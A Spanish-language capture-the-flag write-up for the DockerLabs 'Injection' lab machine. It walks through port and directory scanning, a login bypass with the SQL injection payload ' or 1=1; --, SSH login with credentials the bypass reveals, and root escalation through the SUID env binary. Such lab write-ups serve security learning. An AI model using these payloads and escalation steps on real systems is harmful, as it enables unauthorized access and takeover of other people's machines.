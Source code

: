 #Injection DockerLabs - 13/05/2024

#web - https://dockerlabs.es/#/

Empezamos con un escaneo basico de nmap:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 20:23 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00021s latency).
All 65535 scanned ports on 172.17.0.2 are in ignored states.
Not shown: 65535 closed tcp ports (conn-refused)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.19 seconds

```

Realizamos un escaneo de subdominios con gobuster hacia "http://172.17.0.2":

```shell
└─$ gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,py,bak        
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,py,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 2921]
/config.php           (Status: 200) [Size: 0]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1102800 / 1102805 (100.00%)
===============================================================
Finished
===============================================================

```

Entramos en "http://172.17.0.2/index.php/" y vemos que hay un login web.
Intentamos bypassearlo utilizando la vunerabilidad "sql injection":

```shell
' or 1=1; --
```

![Captura de pantalla 2024-05-14 195628](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/5da299de-f3ce-4ad0-a18f-b7c21ab565af)

Logramos bypassearlo y vemos un usuario "Dylan" y una contraseña "KJSDFG789FGSDF78":

![Captura de pantalla 2024-05-14 195654](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/6d613173-33fe-46f4-9d63-420a7895c706)

Introduciomos estos datos en el servidor ssh:


```shell                                                                   
└─$ ssh dylan@172.17.0.2                                                                                                  
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

```

Buscamos binarios con permisos SUID

```shell
dylan@37ab85f5f7a7:~$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/chsh
/usr/bin/env
/usr/bin/su
/usr/bin/chfn
/usr/bin/passwd

```

Buscamos el binario env en "https://gtfobins.github.io/gtfobins/env/".
Ejecutamos el comando de la web:

```shell
sudo env /bin/sh
```

```shell
# whoami
root
```
